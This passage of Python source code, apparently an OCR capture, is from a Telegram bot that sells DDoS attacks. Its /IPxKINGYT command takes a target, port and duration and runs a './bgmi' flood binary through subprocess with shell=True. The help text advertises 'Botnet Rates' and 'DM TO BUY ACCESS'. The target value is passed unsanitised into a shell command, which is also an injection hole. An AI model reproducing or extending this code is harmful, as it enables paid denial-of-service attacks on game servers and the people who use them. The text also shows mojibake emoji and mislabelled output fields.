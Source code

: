            # Update the last time the user ran the command
            bgmi_cooldown[user_id] = datetime.datetime.now()
        
        command = message.text.split()
        if len(command) == 4:  # Updated to accept target, time, and port
            target = command[1]
            port = int(command[2])  # Convert time to integer
            time = int(command[3])  # Convert port to integer
            if time > 1201:
                response = "Error: Time interval must be less than 1200."
            else:
                record_command_logs(user_id, 'IPxKINGYT', target, port, time)
                log_command(user_id, target, port, time)
                start_attack_reply(message, target, port, time)  # Call start_attack_reply function
                full_command = f"./bgmi {target} {port} {time} 699"
                subprocess.run(full_command, shell=True)
                response = f" Attack Finished. Target: {target} Port: {port} Port: {time}"
        else:
            response = "â Usage :- /IPxKINGYT <target> <port> <time>"  # Updated command syntax
    else:
        response = ("ð« Unauthorized Access! ð«\n\nOops! It seems like you don't have permission to use the /IPxKINGYT command.                                                                          DM TO BUY ACCESS:- DESTROYER")

    bot.reply_to(message, response)



# Add /mylogs command to display logs recorded for bgmi and website commands
@bot.message_handler(commands=['mylogs'])
def show_command_logs(message):
    user_id = str(message.chat.id)
    if user_id in allowed_user_ids:
        try:
            with open(LOG_FILE, "r") as file:
                command_logs = file.readlines()
                user_logs = [log for log in command_logs if f"UserID: {user_id}" in log]
                if user_logs:
                    response = "Your Command Logs:\n" + "".join(user_logs)
                else:
                    response = "â No Command Logs Found For You â."
        except FileNotFoundError:
            response = "No command logs found."
    else:
        response = "You Are Not Authorized To Use This Command ð¡."

    bot.reply_to(message, response)


@bot.message_handler(commands=['help'])
def show_help(message):
    help_text ='''ð¤ Available commands:
ð¥ /IPxKINGYT : Method For IPxKINGYT Servers. 
ð¥ /rules : Please Check Before Use !!.
ð¥ /mylogs : To Check Your Recents Attacks.
ð¥ /plan : Checkout Our Botnet Rates.
ð¥ /myinfo : TO Check Your WHOLE INFO.
